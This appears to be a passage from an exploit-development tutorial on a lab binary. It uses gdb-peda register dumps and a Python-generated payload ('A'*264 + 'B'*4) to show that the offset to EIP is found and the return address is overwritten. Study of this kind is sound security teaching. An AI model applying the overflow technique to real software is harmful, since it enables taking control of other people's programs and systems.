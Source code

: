 ```
    stack_end=0xbffff644) at ../csu/libc-start.c:220
220     ../csu/libc-start.c: No such file or directory.
gdb-peda$ i r
eax            0x0      0x0
ecx            0x80003115       0x80003115
edx            0xb7fb2870       0xb7fb2870
ebx            0x41414141       0x41414141
esp            0xbffff5b0       0xbffff5b0
ebp            0x41414141       0x41414141
esi            0xb7fb1000       0xb7fb1000
edi            0xb7fb1000       0xb7fb1000
eip            0xb7e1a541       0xb7e1a541 <__libc_start_main+65>
eflags         0x10282  [ SF IF RF ]
cs             0x73     0x73
ss             0x7b     0x7b
ds             0x7b     0x7b
es             0x7b     0x7b
fs             0x0      0x0
gs             0x33     0x33
```

As you saw if we add more 3x"A" the "A" will override EIP but I will use last 4x"B" instead of "A". let's try.
```
gdb-peda$ r $(python -c 'print("A"*264+"B"*4)')
Starting program: /kapi/exploitdev/stack_overflow_with_NX $(python -c 'print("A"*264+"B"*4)')

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x41414141 ('AAAA')
ECX: 0x80003115 --> 0x0 
EDX: 0xb7fb2870 --> 0x0 
ESI: 0xb7fb1000 --> 0x1aedb0 
EDI: 0xb7fb1000 --> 0x1aedb0 
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff5b0 --> 0x2 
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbffff5b0 --> 0x2 
0004| 0xbffff5b4 --> 0xbffff644 --> 0xbffff765 ("/kapi/exploitdev/stack_overflow_with_NX")
0008| 0xbffff5b8 --> 0xbffff650 --> 0xbffff89a ("XDG_SESSION_ID=161")
0012| 0xbffff5bc --> 0x0 
0016| 0xbffff5c0 --> 0x0 
0020| 0xbffff5c4 --> 0x0 
0024| 0xbffff5c8 --> 0xb7fb1000 --> 0x1aedb0 
0028| 0xbffff5cc --> 0xb7fffc04 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

